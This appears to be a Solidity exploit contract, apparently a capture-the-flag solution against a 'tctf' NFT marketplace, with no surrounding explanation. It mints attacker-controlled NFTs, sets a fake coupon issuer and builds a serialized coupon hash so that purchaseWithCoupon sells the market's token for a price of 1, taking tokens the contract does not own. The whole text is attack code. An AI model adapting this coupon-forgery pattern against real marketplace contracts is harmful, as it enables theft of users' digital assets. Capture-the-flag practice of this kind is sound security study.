         function getTokenFromMarket() public {
            myNFT.mint(address(this), 1);
            myNFT.setApprovalForAll(address(market), true);
            market.purchaseTest(address(myNFT), 1, 1337);
        }

        function buyToken2() public returns (bool) {
            market.tctfToken().approve(address(market), 1337);
            market.purchaseOrder(1);
            return market.tctfNFT().ownerOf(2) == address(this);
        }

        function createNewOrder() public {
            expNFT.mint(address(this), 1);
            market.createOrder(address(expNFT), 1, 1);
        }

        function buyToken3(uint8 v, bytes32[2] calldata rs) public returns (bool) {
            market.tctfToken().approve(address(market), 1);
            expNFT.setApprovalForAll(address(market), true);
            expNFT.set_fake_issuer(issuer);
            require(market.getOrder(0).nftAddress == address(expNFT), "not valid");
            require(market.getOrder(1).nftAddress == address(market.tctfNFT()), "not valid");
            require(address(market.tctfNFT()) != address(expNFT), "not valid");
            market.purchaseWithCoupon(SignedCoupon(
                Coupon(
                    1, // orderId
                    1, // newprice
                    issuer, // issuer
                    address(this), // user
                    bytes("exploit")
                ),
                Signature(
                    v, rs
                )
            ));
            return market.tctfNFT().ownerOf(3) == address(this);
        }

        function getSerialized() public returns (bytes32) {
            Coupon memory coupon;
            Order memory order;
            order.nftAddress = address(expNFT);
            order.tokenId = 1;
            order.price = 1;
            coupon.user = address(this);
            coupon.issuer = issuer;
            coupon.newprice = 1;
            coupon.reason = bytes("exploit");
            bytes memory serialized = abi.encode(
                "I, the issuer", coupon.issuer,
                "offer a special discount for", coupon.user,
                "to buy", order, "at", coupon.newprice,
                "because", coupon.reason
            );
            return keccak256(serialized);
        }

